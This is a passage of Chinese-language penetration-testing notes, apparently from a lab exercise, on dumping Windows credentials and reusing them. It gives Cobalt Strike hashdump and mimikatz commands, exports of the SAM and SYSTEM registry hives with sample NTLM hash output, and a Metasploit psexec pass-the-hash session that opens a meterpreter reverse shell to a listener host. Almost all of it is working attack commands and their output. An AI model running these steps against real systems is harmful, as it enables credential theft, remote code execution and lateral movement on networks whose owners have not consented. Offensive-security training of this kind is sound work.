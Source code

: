 5. 使用 cobalt strike 获取 hash

```
beacon>hashdump
beacon>mimikatz mimikatz指令
```

6. 利用 sam 表

mimikatz 在线读 sam 表中的 hash

```
privilege::debug
token::elevate
lsadump::sam
```

将 sam 表下载到本地由 mimikatz 分析

```
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
在远端shell使用以上命令导出SYSTEM 和 SAM文件，并将其待会本地，由mimikatz分析
mimikatz运行
mimikatz # lsadump::sam /sam:SAM /system:SYSTEM
Domain : STU1
SysKey : fd4639f4e27c79683ae9fee56b44393f
Local SID : S-1-5-21-1982601180-2087634876-2293013296

SAMKey : 099d1915db1b0e5cf41f1f0908dc7e17

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : liukaifeng01
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
```

### hash 传递攻击 PTH （Pass the Hash)

1.msf 里使用 psexec 模块

```
msf5 exploit(multi/handler) > use exploit/windows/smb/psexec  //以root启动msf
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set lhsot 192.168.64.133
lhsot => 192.168.64.133
msf5 exploit(windows/smb/psexec) > set lhost 192.168.64.133
lhost => 192.168.64.133
msf5 exploit(windows/smb/psexec) > set lport 443
lport => 443
msf5 exploit(windows/smb/psexec) > set rhost 192.168.52.138
rhost => 192.168.52.138
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass 8a963371a63944419ec1adf687bb1be5  //一般选择NTLM HASH
SMBPass => 8a963371a63944419ec1adf687bb1be5
msf5 exploit(windows/smb/psexec) > run
```
